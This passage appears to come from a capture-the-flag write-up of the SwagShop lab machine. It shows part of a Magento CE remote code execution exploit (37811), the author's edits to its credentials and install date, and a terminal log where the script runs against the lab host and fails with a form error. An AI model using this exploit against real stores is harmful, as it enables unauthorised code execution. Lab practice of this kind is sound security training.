 ```bash
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()

```

**Changes made:**

- I removed the comments and description from the script.
- `username = '0xkrakenn'`
- `password = '0xkrakenn'`
- `install_date = 'Wed, 08 May 2019 07:23:09 +0000'`

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ searchsploit -m php/webapps/37811.py                                        
  Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37811
     Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
    Codes: OSVDB-126445
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/krakenn/CPTS/Boxes/SwagShop/Scripts/37811.py
                                                                   
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ mv 37811.py RCE.py

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py             
Usage: python %s <target> <argument>                                      
Example: python %s http://localhost "uname -a" 

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py http://swagshop.htb/index.php/admin/ "whoami"
Traceback (most recent call last):
  File "RCE.py", line 55, in <module>                       
    br['login[username]'] = username                         
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_mechanize.py", line 809, in __setitem__                                                                                                                    
    self.form[name] = val                                
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 1964, in __setitem__                                                                                                                           
    control = self.find_control(name)                                              
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2356, in find_control                                                                                                                          
    return self._find_control(name, type, kind, id, label, predicate, nr)
  File "/home/krakenn/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2447, in _find_control description)                                                                                                                                                                                                                           
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```
